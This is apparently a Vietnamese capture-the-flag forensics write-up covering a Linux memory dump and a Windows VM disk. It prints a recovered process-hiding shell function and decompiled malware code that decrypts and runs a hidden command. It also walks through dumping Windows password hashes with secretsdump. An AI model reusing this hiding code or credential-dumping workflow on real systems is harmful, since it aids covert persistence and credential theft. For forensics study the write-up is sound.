# _Midnight Flag CTF 2025_

## _APT 1337_

- Liệt kê tiến trình:
> linux.psaux.PsAux
> 
> linux.pslist.PsList

- Check file trong RAM (khá tương tự filescan của windows)
> linux.linux.pagecache.InodePages

Dùng strings grep ra được lấy được 1 số thông tin hữu ích sau:
```
hide() {
    [[ -L /etc/mtab ]] && { cp /etc/mtab /etc/mtab.bak; mv /etc/mtab.bak /etc/mtab; }
    _pid=${1:-$$}
    [[ $_pid =~ ^[0-9]+$ ]] && { mount -n --bind /dev/shm /proc/$_pid && echo "[THC] PID $_pid is now hidden"; return; }
    local _argstr
    for _x in "${@:2}"; do _argstr+=" '${_x//\'/\'\"\'\"\'}'"; done
    [[ $(bash -c "ps -o stat= -p \$\$") =~ \+ ]] || exec bash -c "mount -n --bind /dev/shm /proc/\$\$; exec \"$1\" $_argstr"
    bash -c "mount -n --bind /dev/shm /proc/\$\$; exec \"$1\" $_argstr"
}

hide /usr/sbin/daemon &


950     949     sudo    AES_KEY 7557a272bacc4186952a567db00ae817704d059ecfdc8e630c04d8aabecd1e04
950     949     sudo    AES_IV  068131ad1d5c0c1516fce836d510ccce
```

Thấy được dòng cuối thực hiện `hide /usr/sbin/daemon`, khả nghi nên dùng `linux.linux.pagecache.InodePages` để tìm file trong ram

`python3 /home/kali/volatility3/vol.py -f challenge.lime linux.pagecache.InodePages --find /usr/sbin/daemon --dump`

Dùng ida để reverse

```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _QWORD *v4; // rax
  __int64 v5; // rbx
  __int64 v6; // rbx
  __int64 v7; // rbx
  __int64 v8; // rbx
  __int64 v9; // rbx
  __int64 v10; // rbx
  __int64 v11; // rbx
  __int64 v12; // rbx
  __int64 v13; // rbx
  int fd; // [rsp+0h] [rbp-4C0h]
  int v15; // [rsp+4h] [rbp-4BCh]
  unsigned __int64 i; // [rsp+8h] [rbp-4B8h]
  char *v17; // [rsp+10h] [rbp-4B0h]
  char *v18; // [rsp+18h] [rbp-4A8h]
  time_t v19; // [rsp+20h] [rbp-4A0h]
  tm tp; // [rsp+30h] [rbp-490h] BYREF
  _BYTE v21[16]; // [rsp+70h] [rbp-450h] BYREF
  char v22[32]; // [rsp+80h] [rbp-440h] BYREF
  char command[1032]; // [rsp+A0h] [rbp-420h] BYREF
  unsigned __int64 v24; // [rsp+4A8h] [rbp-18h]

  v24 = __readfsqword(0x28u);
  fd = open("/tmp/.dat", 66, 384LL);
  if ( fd < 0 )
    return 1;
  if ( ftruncate(fd, 152LL) )
    return 1;
  zXb4W = (__int64)mmap(0LL, 0x98uLL, 3, 1, fd, 0LL);
  if ( zXb4W == -1 )
    return 1;
  v4 = (_QWORD *)zXb4W;
  v5 = qword_4028;
  *(_QWORD *)zXb4W = original_data;
  v4[1] = v5;
  v6 = qword_4038;
  v4[2] = qword_4030;
  v4[3] = v6;
  v7 = qword_4048;
  v4[4] = qword_4040;
  v4[5] = v7;
  v8 = qword_4058;
  v4[6] = qword_4050;
  v4[7] = v8;
  v9 = qword_4068;
  v4[8] = qword_4060;
  v4[9] = v9;
  v10 = qword_4078;
  v4[10] = qword_4070;
  v4[11] = v10;
  v11 = qword_4088;
  v4[12] = qword_4080;
  v4[13] = v11;
  v12 = qword_4098;
  v4[14] = qword_4090;
  v4[15] = v12;
  v13 = qword_40A8;
  v4[16] = qword_40A0;
  v4[17] = v13;
  v4[18] = qword_40B0;
  v17 = getenv("AES_KEY");
  v18 = getenv("AES_IV");
  if ( !v17 || !v18 )
    return 1;
  if ( (unsigned int)vNh3Z(v17, v22, 32LL) != 32 || (unsigned int)vNh3Z(v18, v21, 16LL) != 16 )
    return 1;
  v19 = time(0LL);
  memset(&tp, 0, 20);
  memset(&tp.tm_wday, 0, 32);
  tp.tm_year = 1100;
  tp.tm_mday = 1;
  if ( v19 < mktime(&tp) )
  {
    while ( 1 )
LABEL_20:
      sleep(1u);
  }
  for ( i = 0LL; i <= 0x97; ++i )
    *(_BYTE *)(zXb4W + i) ^= 0xAAu;
  v15 = pTq7L(zXb4W, 152LL, v22, v21, command);
  if ( v15 >= 0 )
  {
    command[v15] = 0;
    system(command);
    goto LABEL_20;
  }
  return 1;
}
```

Tạo file `tmp/.dat` chứa dữ liệu mã hóa, mình sẽ thực hiện tìm `tmp/.dat` trong ram

`python3 /home/kali/volatility3/vol.py -f challenge.lime linux.pagecache.InodePages --find /tmp/.dat --dump`

![image](images/img1.png)

Decrypt bằng cách xor với `0xAA` sau đó là AES

![image](images/img2.png)


HẾT !!

## Blackdoor

Nếu mount trực tiếp vào `virtual box` thì cần pass đăng nhập nhưng có thể dùng kali để mount và lấy được thông tin `SAM`, `SECURITY` => mật khẩu đăng nhập windows

### Mount

Nhận được 1 file `.ova` thay extension thành `.tar` rồi extract ra được 1 file `.vmdk`. Dùng file vmdk này để mount

https://github.com/fox-it/dissect

`sudo /home/kali/.local/bin/target-mount Blackdoor-disk001.vmdk ~/Downloads/blackdoor/mount`

Dùng tool này để trích xuất thông tin login

https://github.com/fortra/impacket/blob/master/examples/secretsdump.py

![image](images/img3.png)

Lấy NTLM hash của John đem crack 

Pass: `1dodgeneon`

Đăng nhập vào check trong autoruns là thấy được 1 schedule task trông khả nghi

![image](images/img4.png)

Tên file đúng phải là `mscms.dll`, đây là cách ngụy trang của malware

=> malware

Check md5

![image](images/img5.png)

Thấy chương trình được đặt lịch với tên `Calibration Loader`, check trong `Task Scheduler`

![image](images/img6.png)

Check ID

![image](images/img7.png)

Done.


